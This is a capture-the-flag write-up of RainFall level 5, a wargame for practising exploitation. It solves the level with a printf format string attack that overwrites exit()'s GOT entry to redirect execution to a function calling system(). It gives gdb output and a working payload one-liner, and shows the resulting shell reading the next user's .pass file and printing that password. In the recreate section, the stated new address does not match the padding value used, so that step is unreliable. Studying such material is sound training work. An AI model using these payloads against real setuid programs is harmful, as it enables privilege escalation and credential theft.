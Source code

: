 # Level 5

## Vulnerability

Global Offset Table Exploit + printf string vulnerability

## Context

```
level5@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level6 users 5385 Mar  6  2016 level5
level5@RainFall:~$ ./level5
hello
hello
```
We have a binary that prints input from the stdin.

## Solution

Let's take a look at the binary in gdb. <br/>
We can see here that ```level5``` makes a call to ```main()```, which makes a call to a function ```n()```. <br/>
There is also a function ```o()``` which is not called. 
```
(gdb) disas main
Dump of assembler code for function main:
   0x08048504 <+0>:	push   %ebp
   0x08048505 <+1>:	mov    %esp,%ebp
   0x08048507 <+3>:	and    $0xfffffff0,%esp
   0x0804850a <+6>:	call   0x80484c2 <n>
   0x0804850f <+11>:	leave
   0x08048510 <+12>:	ret
```
Let's take a deeper look a ```n()```. <br/>
We can see two function calls in ```n()```. <br/>
One is to ```fgets()```, which is protected against buffer overflow attacks. <br/>
The other is to ```printf()```, which is vulnerable to string format exploits. <br/>
The function then calls ```exit()```.
```
(gdb) disas n
Dump of assembler code for function n:
[...]
   0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
[...]
   0x080484f3 <+49>:	call   0x8048380 <printf@plt>
[...]
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>
```
In ```o()```, we can see a call to ```system()```, which launches a new shell. 
```
(gdb) disas o
Dump of assembler code for function o:
[...]
   0x080484b1 <+13>:	call   0x80483b0 <system@plt>
```
Why are all these functions ```@plt```? <br/> <br/>
~ A little background: ~ <br/>
A ```PLT``` (or Procedure Linkage Table) is a special section in compiled programs which consists of many jump instructions to external  <br/>
functions / shared libraries (for example, libc functions). These jump instructions jump to the ```GOT``` (or Global Offset Table),  <br/>
which contains the actual function address. <br/>
The PLT is read-only, but the GOT can be written to. <br/>
The execution flow of the program can be controlled by overwriting one of the GOT's function addresses. <br/> <br/>
So... what's the plan? <br/>
We can leverage ```printf``` in a format string attack to replace the address of ```exit()``` with the address of ```o()```, <br/>
which will then call ```system``` to launch a new shell. <br/> <br/> 
Let's locate the addresses of ```exit()``` and ```o()```. <br/> 
```
(gdb) info functions
All defined functions:

[...]
0x080483d0  exit@plt
0x080484a4  o
```
Unfortunately, the real address of ```exit()``` is in the GOT. Let's looks there. 
```
level5@RainFall:~$ objdump -R level5 | grep exit
08049838 R_386_JUMP_SLOT   exit
```
So the address of ```exit()``` is 0x08049838, and the address of ```o()``` is 0x080484a4.<br/><br/>

Just like in level3, let's check our buffer position with a ```printf()``` string format exploit.
```
level5@RainFall:~$ python -c 'print "AAAA %x %x %x %x %x %x %x"' | ./level5
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078
```
We can see our buffer "AAAA" in the 4th position on the stack as 41414141. <br/>
So let's replace "AAAA" with the address of ```exit()``` (in little endian). <br/><br/>
The next step is to overwrite ```exit()``` by ```o()```, using the the ```%n``` modifier. <br/>
For the ```%n``` modifier, we need the number of bytes to write. <br/>
"0x080484a4" in decimal is "134513828" (minus the exit GOT address [4 bytes]). <br/><br/>
Here is what our string attack will look like:
```
"exit GOT address" + "134513828 - 4 bytes" + "%4$n"
python -c 'print "\x38\x98\x04\x08" + "%134513824d" + "%4$n"' 
```
Let's try it out!
```
level5@RainFall:~$ (python -c 'print "\x38\x98\x04\x08" + "%134513824d" + "%4$n"' ; cat -) | ./level5
[You will find are in an infinite print loop. Type anything and press "enter"]
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

## Recreate Exploited Binary

As user ```level6```, in ```/tmp```, create and compile ```level5_source.c```.
```
level6@RainFall:~$ cd /tmp
level6@RainFall:/tmp$ gcc level5_source.c -fno-stack-protector -Wno-format-security -o level5_source
```
Edit permissions including suid, then move the binary to home directory.
```
level6@RainFall:/tmp$ chmod u+s level5_source
level6@RainFall:/tmp$ chmod +wx ~; mv level5_source ~
```
Exit back to user ```level5```, then run the binary. <br/>
Notes: 
- Our new address for ```exit()``` is located at 0x0804a014 (but we still print the address in little endian).
- Our new address for ```o()``` is located at 0x080484c4 => 134513860 (minus the exit GOT address [4 bytes])
```
level6@RainFall:/tmp$ exit
exit
level5@RainFall:~$ (python -c 'print "\x14\xa0\x04\x08" + "%134513824d" + "%4$n"' ; cat -) | /home/user/level6/level5_source
[... infinite print loop ...]
cat /home/user/level6/.pass
```
